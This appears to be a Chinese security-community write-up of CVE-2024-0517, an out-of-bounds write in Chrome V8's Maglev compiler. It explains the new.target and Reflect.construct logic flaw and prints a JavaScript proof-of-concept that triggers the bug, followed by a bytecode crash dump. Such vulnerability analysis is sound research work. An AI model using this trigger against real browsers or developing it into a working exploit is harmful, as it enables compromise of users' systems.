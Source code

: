 

# Chrome V8 越界写入代码执行漏洞 CVE-2024-0517 - 先知社区

Chrome V8 越界写入代码执行漏洞 CVE-2024-0517

- - -

# 漏洞影响范围

Google Chrome V8 <120.0.6099.224

# 漏洞代码分析

VisitFindNonDefaultConstructorOrConstruct 函数中存在一个漏洞，即 Maglev 函数中的一个问题。该函数在一个类拥有父类时，试图优化类的创建。具体而言，当类中包含一个 new.target 引用时，在生成代码时会触发逻辑问题，导致发生类型为越界写入的二阶漏洞。new.target 被定义为函数的元属性，用于检测该函数是否已使用 new 运算符调用。对于构造函数而言，它允许访问通过 new 运算符调用的函数。在下述情况下，Reflect.construct 被用于构造带有 ClassBug 构造，而 ClassParent 作为 new.target 的 ClassBug。

```plain
function main() {
  class ClassParent {
  }
  class ClassBug extends ClassParent {
      constructor() {
        const v24 = new new.target();
        super();
        let a = [9.9,9.9,9.9,1.1,1.1,1.1,1.1,1.1];
      }
      [1000] = 8;
  }
  for (let i = 0; i ＜ 300; i++) {
      Reflect.construct(ClassBug, [], ClassParent);
  }
}
%NeverOptimizeFunction(main);
main();
```

崩溃

```plain
0x9b00019a548 @    0 : 19 fe f8          Mov , r1
         0x9b00019a54b @    3 : 0b f9             Ldar r0
         0x9b00019a54d @    5 : 69 f9 f9 00 00    Construct r0, r0-r0, [0]
         0x9b00019a552 @   10 : c3                Star2

         0x9b00019a553 @   11 : 5a fe f9 f2       FindNonDefaultConstructorOrConstruct , r0, r7-r8
         0x9b00019a557 @   15 : 0b f2             Ldar r7
         0x9b00019a559 @   17 : 19 f8 f5          Mov r1, r4
         0x9b00019a55c @   20 : 19 f9 f3          Mov r0, r6
         0x9b00019a55f @   23 : 19 f1 f4          Mov r8, r5
         0x9b00019a562 @   26 : 99 0c             JumpIfTrue [12] (0x9b00019a56e @ 38)
         0x9b00019a564 @   28 : ae f4             ThrowIfNotSuperConstructor r5
         0x9b00019a566 @   30 : 0b f3             Ldar r6
         0x9b00019a568 @   32 : 69 f4 f9 00 02    Construct r5, r0-r0, [2]
         0x9b00019a56d @   37 : c0                Star5
         0x9b00019a56e @   38 : 0b 02             Ldar
         0x9b00019a570 @   40 : ad                ThrowSuperAlreadyCalledIfNotHole

         0x9b00019a571 @   41 : 19 f4 02          Mov r5,
         0x9b00019a574 @   44 : 2d f5 00 04       GetNamedProperty r4, [0], [4]
         0x9b00019a578 @   48 : 9d 0a             JumpIfUndefined [10] (0x9b00019a582 @ 58)
         0x9b00019a57a @   50 : be                Star7
```